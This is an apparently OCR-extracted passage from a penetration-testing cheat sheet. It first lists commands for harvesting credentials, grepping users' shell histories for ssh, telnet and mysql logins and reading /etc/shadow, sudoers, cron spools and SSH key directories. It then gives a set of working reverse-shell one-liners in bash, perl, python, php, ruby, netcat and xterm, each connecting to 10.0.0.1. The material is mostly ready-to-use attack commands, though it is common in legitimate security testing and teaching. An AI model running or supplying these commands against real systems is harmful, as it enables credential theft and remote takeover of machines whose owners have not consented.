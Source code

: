 -   grep \^ssh /Users/\*/.\*hist\*

-   grep \^telnet \`/Users/\*/.\*hist\*

-   grep \^mysql /Users/\*/.\*hist\*

-   cat /Users/\*/.viminfo



-   sudo -l \# if sudoers is not readable, this sometimes works per user

-   crontab -l

\# Priv (sudo'd or as root)

-   ls -alh /root/

-   cat /etc/sudoers

-   cat /etc/shadow

-   cat /etc/master.passwd \# OpenBSD

-   cat /var/spool/cron/crontabs/\*

-   lsof -nPi

-   ls /Users/\*/.ssh/\*

\# Reverse Shell

starting list sourced from:
[[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet]{.underline}](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

-   bash -i \>& /dev/tcp/10.0.0.1/8080 0\>&1 \# No /dev/tcp on Mac OS X

-   perl -e \'use
    Socket;\$i=\"10.0.0.1\";\$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr\_in(\$p,inet\_aton(\$i)))){open(STDIN,\"\>&S\");open(STDOUT,\"\>&S\");open(STDERR,\"\>&S\");exec(\"/bin/sh
    -i\");};\'

-   python -c \'import
    socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((\"10.0.0.1\",1234));os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);p=subprocess.call(\[\"/bin/sh\",\"-i\"\]);\'

-   php -r \'\$sock=fsockopen(\"10.0.0.1\",1234);exec(\"/bin/sh -i
    \<&3 \>&3 2\>&3\");\'

-   ruby -rsocket -e\'f=TCPSocket.open(\"10.0.0.1\",1234).to\_i;exec
    sprintf(\"/bin/sh -i \<&%d \>&%d 2\>&%d\",f,f,f)\'

1.  nc -e /bin/sh 10.0.0.1 1234 \# note need -l on some versions, and
    > many does NOT support -e anymore

    a.  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2\>&1\|nc
        > 10.0.0.1 1234 \>/tmp/f

-   xterm -display 10.0.0.1:1

    -   Listener- Xnest :1

    -   Add permission to connect- xhost +victimIP

